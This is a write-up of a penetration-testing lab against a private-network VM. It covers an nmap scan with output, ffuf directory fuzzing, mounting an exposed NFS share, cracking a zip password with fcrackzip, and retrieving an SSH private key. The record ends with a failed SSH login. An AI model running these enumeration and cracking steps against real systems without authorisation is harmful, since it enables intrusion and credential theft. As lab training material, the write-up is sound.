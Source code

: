 
## Do scanning and enumeration using nmap

```
nmap -sS -Pn -A -p- -T4 192.168.64.6 -oN nmapdev.txt
```


Output:

```
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-07 15:18 PDT
Nmap scan report for 192.168.64.6
Host is up (0.0015s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36809/tcp6  mountd
|   100005  1,2,3      47231/tcp   mountd
|   100005  1,2,3      50980/udp   mountd
|   100005  1,2,3      60620/udp6  mountd
|   100021  1,3,4      34691/tcp6  nlockmgr
|   100021  1,3,4      40815/tcp   nlockmgr
|   100021  1,3,4      57124/udp   nlockmgr
|   100021  1,3,4      58206/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.54 ms 192.168.64.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.82 seconds

```

## Exploit port 8080

```
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


- http://192.168.64.6:8080
		- PHP Version 7.3.27-1~deb10u1
		- Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 


## Exploit port 80

- http://192.168.64.6
		- There is bolt cms webpage not in proper location


## Directory scanning using ffuf

#ffuf 

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.6/FUZZ -mc 200,204,301,302,307,401,403,405


## Exploit nfs


1. Check nfs file share by using `showmount -e 192.168.64.6`
2. Make a directory to mount that nfs file share to your directory by using `mkdir /mnt/dev
3. mount the /mnt/dev directory to the nfs file share `mnt -t nfs 192.168.64.6:/srv/nfs /mnt/dev`
4. Go to the directory `cd /mnt/dev`
5. list the directory `ls`
6. unzip the file `unzip save.zip`
7. However it has password, we need to install fcrackzip `apt install fcrackzip`
8. Use fcrackzip to crack the password using the wordlist dictionary rockyou.txt
```
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```
where:

- -v - verbosity
- -u - unzip
- -D - dictionary
- -p - we are using wordlistfile rockyou.txt
- save.zip - the file that we will unzip

9. After cracking, we found out that the pw is java101
10. After unzipping we unzion sa save.zip and found id_rsa file and todo.txt
11. We tried the id_rsa file in connecting using jp username but cant connect 

```
┌──(root㉿kali)-[~]
└─# showmount -e 192.168.64.6
Export list for 192.168.64.6:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

┌──(root㉿kali)-[~]
└─# mkdir /mnt/dev 

┌──(root㉿kali)-[~]
└─# mount -t nfs 192.168.64.6:/srv/nfs /mnt/dev

┌──(root㉿kali)-[~]
└─# cd /mnt/dev 

┌──(root㉿kali)-[/mnt/dev]
└─# ls
save.zip

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
password incorrect--reenter: 
   skipping: id_rsa                  incorrect password
   skipping: todo.txt                incorrect password

┌──(root㉿kali)-[/mnt/dev]
└─# apt install fcrackzip

┌──(root㉿kali)-[/mnt/dev]
└─# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip                                                                          
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip 
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                

┌──(root㉿kali)-[/mnt/dev]
└─# ls
id_rsa  save.zip  todo.txt

┌──(root㉿kali)-[/mnt/dev]
└─# cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jp@192.168.64.6
The authenticity of host '192.168.64.6 (192.168.64.6)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.64.6' (ED25519) to the list of known hosts.
jp@192.168.64.6's password: 
Permission denied, please try again.
jp@192.168.64.6's password: 

                                                                                                                                                      
┌──(root㉿kali)-[/mnt/dev]
└─# 


```
